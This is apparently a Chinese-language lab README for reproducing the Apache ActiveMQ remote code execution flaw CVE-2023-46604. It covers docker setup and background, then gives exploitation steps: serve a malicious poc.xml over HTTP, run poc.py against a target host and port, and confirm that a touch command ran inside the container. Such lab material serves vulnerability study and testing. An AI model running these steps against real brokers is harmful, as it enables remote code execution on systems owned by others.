 # Apache ActiveMQ (版本 < 5.18.3) RCE （CVE-2023-46604）

## 环境搭建

搭建及运行漏洞环境：

```
docker compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，61616为工作端口。在本次漏洞利用中，我们只需要用到61616端口。执行漏洞验证过程时，请先访问8161端口，确认服务启动成功。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 背景简述

Apache ActiveMQ存在远程代码执行漏洞。该漏洞可能允许具有网络访问权限的远程攻击者通过操纵OpenWire协议中的序列化类类型来运行任意shell命令，从而导致代理实例化类路径上的任何类。

| 默认端口      | 默认条件      |
|-----------|-----------|
| 8161  web | 需配置才可远程访问 |
| 61616 tcp | 远程访问      |

## 漏洞复现

在poc.xml的文件夹下启动http服务

```shell
python3 -m http.server 6666
```

执行poc.py

```shell
python3 poc.py target port http://启动http服务的ip/poc.xml
```

到activeMQ容器中进行查看：

docker exec cve-2023-46604-activemq-1 ls -l /tmp

可以看到touch /tmp/activeMQ-RCE-success成功被执行：

![01.png](01.png)
